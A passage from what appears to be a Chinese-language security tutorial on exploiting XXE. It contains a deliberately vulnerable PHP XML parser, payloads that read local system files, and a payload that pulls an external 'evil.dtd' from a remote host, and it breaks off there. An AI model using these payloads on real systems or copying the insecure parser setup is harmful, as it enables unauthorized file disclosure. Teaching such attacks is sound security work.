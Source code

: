 **3.3 XXE 漏洞利用**

①本地任意文件读取（有回显）, 在服务器上面将 doLogin.php 修改为如下：

```
<?php
libxml\_disable\_entity\_loader (false);
$xmlfile = file\_get\_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML\_NOENT | LIBXML\_DTDLOAD);
$creds = simplexml\_import\_dom($dom);
echo $creds;
?>
```

Windows 系统使用 payload：

```
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE creds \[
  <!ENTITY ali SYSTEM "file:///c:/windows/system.ini"> \]>
<creds>&ali;</creds>
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnvAtHKgQE6DjEJlGaC8lj6jAra6hZaulbjaibC0ricrsSozuRK8apmYoyA/640?wx_fmt=png)

可以看到文件成功读取，但是可以看到读取的文件中并没有特殊符号，如果文件存在符号呢？

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnv97uVTzUVbIzWXXvSWXY3WeZic18Ufa3I3hFBMl04icoBukZnkRft2Y1A/640?wx_fmt=png)

尝试文件读取：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnvqAFMTia5iakxoaUicIFEjt1LOHE1llQNhcloOq9HwyqbLyG0YJmRCNV6g/640?wx_fmt=png)

发现当腰读取的文件中有特殊符回报错，无法读取到想要的文件。此时使用 CDATA 解决报错问题，我们将读出来的数据，放在 CDATA 中输出即可；CDATA 部分中的所有内容都会被解析器忽略。在前面有讲到：

> 在 XML 元素中，"<" （新元素的开始）和 "&" （字符实体的开始）是非法的。某些文本，比如 JavaScript 代码，包含大量 "<" 或 "&" 字符。为了避免错误，可以将脚本代码定义为 CDATA。
> 
> https://mp.weixin.qq.com/cgi-bin/appmsg?t=media/appmsg\_edit&action=edit&type=10&appmsgid=100001061&token=684418616&lang=zh\_CN

使用 payload：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag \[
<!ENTITY % start "<!\[CDATA\[">
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">
<!ENTITY % end "\]\]>">
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd">
%dtd; \]>
<roottag>&all;</roottag>
```

evil.dtd
